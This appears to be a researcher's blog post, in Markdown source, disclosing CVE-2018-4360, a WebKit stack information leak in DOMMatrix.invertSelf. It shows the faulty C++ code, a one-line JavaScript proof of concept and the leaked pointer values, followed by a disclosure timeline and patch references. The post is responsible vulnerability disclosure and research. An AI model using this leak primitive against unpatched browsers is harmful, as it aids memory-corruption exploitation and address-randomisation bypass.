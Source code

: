 ```yaml
---
title: CVE-2018-4360 - WebKit Information Leak with DOMMatrix.invertSelf
date: '2019-02-19 22:21:03'
layout: post
---
```


While playing around with [domato](https://github.com/googleprojectzero/domato) and WebKit, I came across an interesting crash when calling `invertSelf` on a `DOMMatrix`. The bug was in the following code ([Source/WebCore/css/DOMMatrix.cpp](https://github.com/WebKit/webkit/blob/3f2a2d3c748d1b13116717c104410fd32e79d5cc/Source/WebCore/css/DOMMatrix.cpp#L229)):

```cpp
Ref<DOMMatrix> DOMMatrix::invertSelf()
{
    auto inverse = m_matrix.inverse();
    if (!inverse) {
        m_matrix.setMatrix(
            std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(),
            std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(),
            std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(),
            std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN()
        );
        m_is2D = false;
    }
    m_matrix = inverse.value();
    return Ref<DOMMatrix> { *this };
}
```

This issue is that inverting `m_matrix` can fail and set `inverse` to a nullopt, but `inverse.value()` is still always called overwriting the NaN values with an uninitialised pointer. This will fill up the matrix with random data from the stack, which we can then access:

```javascript
console.log(new DOMMatrix([0, 0, 0, 0, 0, 0]).invertSelf())
```
```
DOMMatrix:
  a: 2.3236913163e-314
  b: 6.9529314086834e-310
  c: 0
  d: 2.121995918e-314
  e: 2.2541024625e-314
  f: 6.9531249123115e-310
  is2D: false
  isIdentity: false
  m11: 2.3236913163e-314
  m12: 6.9529314086834e-310
  m13: 2.2560109e-314
  m14: 2.2561725264e-314
  m21: 0
  m22: 2.121995918e-314
  m23: 2.3487948945e-314
  m24: 2.2541024625e-314
  m31: 2.256111357e-314
  m32: 2.3217606737e-314
  m33: 2.2560109e-314
  m34: 2.2541024625e-314
```

After converting to Int64s using the wonderful scripts from [https://github.com/saelo/jscpwn/](https://github.com/saelo/jscpwn/):
```javascript
0x00007fff18553185
0x0000000100000101
0x00007ffff961eb70
0x00007fff18553185
0x00000002205adf60
0x0000000100000101
0x000000022b4c7e60
0x0000000228479bb0
0x00000002201af0c0
```

The reason that this started crashing was due to the changes made to [WTF's internal std::optional](https://bugs.webkit.org/show_bug.cgi?id=187669) which caused any invalid access to crash instead of using the uninitialised value.

Timeline:
* Jul 4, 2018 - Reported to Apple 
* Jul 6, 2018 - Acknowledgement from Apple
* Jul 9, 2018 - Fix commited to svn
* Sep 17, 2018 - iOS and Safari updated

References:

* [https://github.com/WebKit/webkit/commit/a0b0e01648892b0bb60a01aca619eec85eb27f7a](https://github.com/WebKit/webkit/commit/a0b0e01648892b0bb60a01aca619eec85eb27f7a)
* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-4360](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-4360)
* [https://support.apple.com/en-au/HT209106](https://support.apple.com/en-au/HT209106)